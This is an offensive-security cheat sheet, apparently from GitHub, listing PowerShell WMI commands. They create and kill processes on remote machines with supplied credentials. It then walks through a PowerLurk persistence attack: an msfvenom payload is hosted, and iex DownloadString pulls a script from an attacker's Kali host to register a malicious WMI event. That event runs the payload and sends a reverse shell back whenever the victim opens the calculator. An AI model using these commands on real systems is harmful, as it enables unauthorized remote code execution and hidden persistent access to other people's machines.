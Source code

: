 ```powershell
Invoke-WmiMethod -Class Win32_Process -Name create -ArgumentList cmd.exe
```

// Also will generate a process as a child from the WmiProvider

```powershell
Invoke-WmiMethod -Class Win32_Process -Name create -ArgumentList cmd.exe -ComputerName <ip> -Credential <user>
```

```powershell
Get-WmiObject -Class Win32_Process -Filter {ProcessId ="2512"} -Computername <ip> -Credential <user>
```

```powershell
Get-WmiObject -Class Win32_Process -Filter {ProcessId ="2512"} -Computername <ip> -Credential <user> | Remove-WmiObject
```

// if we want to kill the process remotely


### PowerLurk
https://github.com/Sw4mpf0x/PowerLurk

- make a payload in msfvenom
- send to the target machine via python web server host
- open a handler in metasploit
- download the PowerLurk.ps1 from github
- execute this command to grab the PowerLurk file and trigger with a program, in this case the calc.exe. 
// Everytime the target execute the calculator our payload will be executed.

```powershell
iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/PowerLurk.ps1'); Register-MaliciousWmiEvent -EventName CalcExec -PermanentCommand "cmd.exe /c C:\programdata\payload.exe" -Trigger ProcessStart -ProcessName calc.exe
```

- To view our malicious WMI Event

```powershell
iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/PowerLurk.ps1'); Get-WmiEvent -Name CalcExec
```

> now its up to the target user, to open the calculator 
it will trigger the reverse shell back to our kali 

### if you wanna Remove the Malicious WMI Event
```powershell
iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/PowerLurk,ps1'); Get-WmiEvent -Name CalcExec | Remove-WmiObject
```




